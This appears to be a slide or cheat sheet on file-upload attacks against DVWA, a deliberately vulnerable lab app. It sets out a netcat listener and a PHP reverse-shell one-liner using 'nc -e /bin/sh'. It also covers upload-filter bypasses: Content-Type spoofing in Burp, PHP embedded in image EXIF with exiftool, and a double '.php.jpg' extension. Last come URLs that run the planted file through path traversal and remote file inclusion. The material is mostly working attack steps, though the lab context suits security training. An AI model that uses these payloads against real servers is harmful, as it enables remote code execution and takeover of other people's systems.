

# File Upload Payloads
Reverse Shell:
Attacker: nc -lvnp 4444
Target: reverse.php: <?php echo system('nc -e /bin/sh 127.0.0.1 4444') ?>

File Upload Bypass methods:
Burp suite request, change Content-Type: application/x-php --> Content-Type: image/jpeg
exiftool -Comment="<?php echo system('nc -e /bin/sh 127.0.0.1 4444') ?>" cta-bg1.jpg
mv cta-bg1.jpg cta-bg1.php.jpg
Add the php code at the end of the image data in burp suite request.

Find a way to view the files
../../uploads/reverse.php
http://localhost/DVWA/hackable/uploads/reverse.php
Path traversal vulnerability: http://localhost/DVWA/vulnerabilities/fi/?page=http://localhost/DVWA/hackable/uploads/cta-bg1.php.jpg